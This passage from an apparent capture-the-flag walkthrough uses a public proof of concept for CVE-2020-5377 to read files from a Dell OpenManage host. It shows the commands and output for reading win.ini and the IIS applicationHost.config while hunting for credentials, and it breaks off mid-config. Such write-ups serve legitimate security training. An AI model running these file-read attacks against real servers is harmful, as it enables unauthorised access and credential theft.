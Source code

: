 ## Shell as tyler

### File Disclosure in Dell OpenManage Server Administrator

Searching for vulnerabilities in `Dell OpenManage Server Administrator 9.4.0.2`, we came across [this article](https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/), where it mentions an authentication bypass "vulnerability" followed by an arbitrary file read vulnerability found in `9.4.0.0` and how a fix for this was implemented in version `9.4.0.2`. But luckily for us, it also details how the added filter as a fix can be bypassed using `URL encoding` and because of that version `9.4.0.2` is still vulnerable.

The article also includes a [PoC exploit code](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514) we can try.

After downloading and running the script, we are able to read files from the server.

```console
$ python3 CVE-2020-5377.py 10.11.72.22 10.10.144.158:1311
Session: 77F3FF1162874D873B95D6B7CA4B0F86
VID: 8FAE0B861EF01CAF
file > /Windows/win.ini
Reading contents of /Windows/win.ini:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

### Finding Credentials

First, we can try to read the `applicationHost.config` file to get the general configuration for the `IIS`.

Inside, we find the configured sites along with their paths.

```console
file > /Windows/System32/inetsrv/Config/applicationHost.config
Reading contents of /Windows/System32/inetsrv/Config/applicationHost.config:
<?xml version="1.0" encoding="UTF-8"?>
<!--

    IIS configuration sections.

    For schema documentation, see
    %windir%\system32\inetsrv\config\schema\IIS_schema.xml.
    
    Please make a backup of this file before making any changes to it.

-->

<configuration>
...
        <sites>
            <site name="hacksmartersec" id="2" serverAutoStart="true">
                <application path="/" applicationPool="hacksmartersec">
                    <virtualDirectory path="/" physicalPath="C:\inetpub\wwwroot\hacksmartersec" />
                </application>
                <bindings>
                    <binding protocol="http" bindingInformation="*:80:" />
                </bindings>
            </site>
            <site name="data-leaks" id="1">
                <application path="/">
```